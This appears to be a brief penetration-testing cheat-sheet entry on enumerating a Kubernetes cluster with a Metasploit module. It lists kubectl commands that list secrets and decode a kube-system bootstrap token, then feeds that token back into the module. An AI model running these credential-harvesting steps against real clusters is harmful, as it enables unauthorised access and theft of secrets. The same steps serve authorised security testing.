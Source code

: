 ```
use cloud/kubernetes/enum_kubernetes
```


1. Use the Metasploit k8s framework
2. Get the hostname
3. Set hostname
```
set RHOST hostname
```
4. Try obtaining an existing token:
  - `kubectl get sa`
  - `kubectl get secrets`
  - `kubectl get secret bootstrap-token-2cfprk -n kube-system -o yaml`
  - `kubectl get secret -n kube-system bootstrap-token-2cfprk -o json | jq '.data | map_values(@base64d)'`
5. Try to use that token:
```
set TOKEN tokenoutput
```

6. Try a few commands:
```
run
```